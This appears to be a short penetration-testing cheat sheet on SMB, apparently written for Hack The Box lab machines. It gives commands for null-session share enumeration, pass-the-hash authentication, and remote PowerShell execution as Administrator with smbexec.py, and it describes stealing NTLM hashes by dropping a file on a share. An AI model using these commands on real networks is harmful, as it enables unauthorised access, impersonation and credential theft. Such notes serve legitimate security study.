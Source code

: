 # SMB

## Null Session

**smbmap**:

```
 smbmap -H querier.htb -u anonymous -d localhost
```

Use the -R flag to recursively list everything.

**smbclient**:&#x20;

```
smbclient -L \querier.htb
```

Enter any password or supply the --no-pass flag.

## Pass The Hash

The NTLM hash of a user’s password is used in the NTLM challenge-response authentication protocol. Therefore, if you know the user’s NTLM hash, you can impersonate that user for services that rely on NTLM challenge-response.

Smbmap to enumerate an SMB share:

```
smbmap -u USERNAME -p 0B186E661BBDBDCF6047784DE8B9FD8B:0B186E661BBDBDCF6047784DE8B9FD8B -H HOST
```

_Note: If you just have the NT hash, then you can just input the NT hash twice. No one really checks the LM hash anyways._

Execute commands over SMB (requires write permissions):

```
smbexec.py jeeves/Administrator@jeeves.htb -hashes "aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00" -shell-type "powershell"
```

## NTLM Hash Theft

If you have access to a network share, then you can drop a file in there that will result in a user's NTLM hash being stolen when they navigate to that share.&#x20;

TODO: Link main article in post exploitation

